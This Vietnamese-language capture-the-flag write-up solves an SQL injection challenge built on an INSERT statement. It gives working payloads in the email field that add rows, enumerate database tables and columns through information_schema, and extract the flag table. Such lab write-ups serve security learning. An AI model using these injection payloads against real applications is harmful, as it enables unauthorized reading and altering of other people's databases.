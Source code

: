 ![image](https://user-images.githubusercontent.com/125866921/233823593-4ac7583e-2e6a-49e0-b701-692c803f265a.png)

  - Bước vào challenge thì có 2 form là ``login`` và ``register``.  
  - Như tên của đề bài, SQL Injection INSERT sẽ thực hiện các yêu cầu SQL để chèn hoặc thay đổi dữ liệu trong cơ sở dữ liệu của ứng dụng.  
  - Sau khi tạo 1 tài khoản và đăng nhập thì sẽ xuất hiện 2 trường là ``username`` và ``email``. Nhưng ở ``username`` thì bị giới hạn kí tự và bị filter đối vối mốt số kí tự. Do đó ta sẽ inject vào phần ``email``.  
  - Sau 1 thời gian tìm hiểu thì biết rằng có thể chèn nhiều hàng vào 1 cột bằng cách sau:  

        INSERT INTO table (a, b,c) value ('a','b','c'),('d','e','f').  
        
  - Qua đó ta có thể suy ra được payload như sau:  

        email'),('username', 'password', 'SQLi') -- -.
        
      - Do ta chỉ lấy cột ``email`` để inject.  

  - Bây giờ ta sẽ thử khai thác trong database xem có những bảng nào.  

        email'),('x','x',(select group_concat(table_name) from information_schema.tables where table_schema=database())) -- -
        
![image](https://user-images.githubusercontent.com/125866921/233824263-928494d3-56a9-4935-9ad6-64178bc2447e.png)

  - Ta thấy ở phần ``email`` có 2 bảng là ``membres`` và ``flag``.  
  - Ta tiếp tục truy cập vào bảng flag.  

        email'),('y','y',(select group_concat(column_name) from information_schema.columns where table_name='flag')) -- -
        
![image](https://user-images.githubusercontent.com/125866921/233824359-55cea035-ec8e-48bf-97c7-b1be5c301356.png)

  - Bây giờ thì nó xuất hiện thêm 1 cột là ``flag``.
  - Truy cập vào cột đó và lấy flag thôi.  

        email'),('z','z',(select group_concat(flag) from flag)) -- -
